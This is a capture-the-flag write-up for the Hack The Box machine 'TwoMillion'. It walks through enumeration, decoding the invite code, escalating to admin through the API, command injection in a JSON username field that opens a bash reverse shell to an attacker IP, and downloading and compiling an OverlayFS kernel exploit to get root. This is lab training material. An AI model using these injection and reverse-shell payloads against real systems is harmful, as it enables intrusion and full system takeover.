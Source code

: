 # HTB - TwoMillion

**IP Address:** `10.10.11.221`  
**OS:** Ubuntu  
**Difficulty:** Medium  
**Tags:** #Web, #ROT13, #Base64, #CookieInjection, #CommandInjection, #ReverseShell, #OverlayFS

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping -c 1 10.10.11.221
```

✅ Host is alive

### 1.2 Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.11.221
nmap -sC -sV -p22,80 10.10.11.221 -oN targeted
```

Found:

- 22/tcp → SSH
- 80/tcp → Apache/2.4.52 (Werkzeug 3.0.3 Python/3.10.12)

---

## 2. Web Enumeration

Added to `/etc/hosts`:

```
10.10.11.221 2million.htb
```

Website is a clone of the original HTB interface from 2017. Registration requires hacking the invite system.

---

## 3. Decoding the Invite Logic

On the invite page, ran in browser console:

```js
makeInviteCode()
```

Found ROT13 encoded string. Decoded via terminal:

```bash
echo "ROT13_STRING" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

Result:

```
Make a POST request to /api/v1/invite/generate
```

Sent the POST request:

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq
```

Decoded the Base64 invite key:

```bash
echo "M0VKMFUtUklFUVEtRVZDVEEtNzFIWFc=" | base64 -d
```

Used the invite key to register and access the site.

---

## 4. API Fuzzing

Tested endpoints with:

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

Initially returned 401 Unauthorized. Tried again with session cookie:

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=<cookie>" | jq
```

Endpoints discovered:

- `/api/v1/user/vpn/generate`
- `/api/v1/admin/auth`
- `/api/v1/admin/vpn/generate`

---

## 5. Privilege Escalation via API Abuse

Tried PUT method to elevate to admin:

```bash
curl -X PUT http://2million.htb/api/v1/user/settings -H "Cookie: PHPSESSID=<cookie>" -H "Content-Type: application/json" -d '{"email":"admin@htb.local","is_admin":1}'
```

✅ Became admin

---

## 6. Command Injection & Shell Access

Tested command injection via `username` field:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=<cookie>" -H "Content-Type: application/json" -d '{"username": "moka; id #"}'
```

✅ Confirmed command injection

Spawned reverse shell:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=<cookie>" -H "Content-Type: application/json" -d '{"username": "moka; bash -c \"bash -i >& /dev/tcp/10.10.14.228/443 0>&1\";"}'
```

Listener:

```bash
nc -nlvp 443
```

---

## 7. Post Exploitation

Stabilized shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Found `.env` file with admin credentials.

Logged in as `admin`.

🏁 **User flag obtained**

---

## 8. Root Privilege Escalation via OverlayFS

Checked user-owned files:

```bash
find / -user admin 2>/dev/null | grep -vE "sys|proc"
```

Found mail:

```bash
cat /var/mail/admin
```

Mentioned vulnerability: OverlayFS + FUSE

---

## 9. Exploit OverlayFS

1. Downloaded exploit from GitHub
2. Transferred via HTTP server:
   ```bash
   python3 -m http.server 80
   wget http://10.10.14.228/exploit.zip
   ```
3. Extracted & compiled:
   ```bash
   unzip exploit.zip
   make all
   ```
4. Reconnected as `admin` via SSH and executed:
   ```bash
   ./exp
   ```

✅ Root access obtained  
🏁 **Root flag retrieved**

---

# ✅ MACHINE COMPLETE
